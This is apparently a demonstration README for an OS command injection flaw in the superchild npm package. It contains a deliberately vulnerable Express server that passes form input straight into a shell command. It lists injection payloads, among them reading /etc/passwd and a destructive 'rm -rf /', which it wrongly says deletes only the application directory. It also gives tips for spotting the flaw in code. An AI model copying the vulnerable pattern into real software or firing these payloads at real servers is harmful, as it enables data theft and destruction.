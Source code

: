 # Source Code
The purpose of this application is to demonstrate the capabilities of an OS command injection exploit using the Superchild npm package.

## superchild_exploitable.js
This file creates a simple web server, and allows a client to call the cat command to the server.

```
//Add dependencies
const express = require('express'),
      superchild = require('superchild'),
      fs = require('fs');

//Creates app
const app = express();
app.use(express.urlencoded({extended : true}));

//Sends form to client
app.get('/', (req, res) => {
  res.sendFile('index.html', {root: __dirname})
})

//Handles form submissions
app.post('/', (req, res) => {
  let filePath = req.body.filePath

  //Creates child process for cat
  let child = superchild('cat ' + filePath);
  //Sets callback for child output line event to call res.write(), sends ouptut to client
  child.on('stdout_line', function (line) {
    res.write(line + '\n');
  });
  //Sets callback for child "exit" event to call res.end(), completes http response
  child.on('exit', function () {
    res.end()
  });
});

//Starts app
app.listen(process.env.port || 8080);
```

# Running the sample
run the script via node:
```
foo@bar:~$ node superchild_exploitable.js
```

## Dependencies
You can install these with the following command `npm install <pkg>`

- express
- superchild

## Running application
Once a client submits the form with the `filePath` query to the server, the contents of that file path will be read to the client.

# Payload

## Procedure
- Go to `localhost:8080`
- Insert the payload via the form on the site (Ex. `; rm -rf /`)
  - `; cat /etc/passwd`
    - Command will read password folder to client.
  - `; rm -rf /`
    - Command will delete application directory and its contents.
  - `; /System/Library/CoreServices/Menu\ Extras/User.menu/Contents/Resources/CGSession -suspend`
    - If the server is running macOS, the command will lock the server computer.

##Syntax Searchability
To search for this vulnerability, search for this function call and check for an un-sanitized path to the user input.
`superchild(<command + user input>, other parameters...)`

To find if the application uses this package, search for it under the dependencies (Ex. `const superchild = require('superchild')`)

## Why it works?
Because the user input is not sanitized, the resulting command can be concatenated with arbitrary commands, separated by a semicolon.
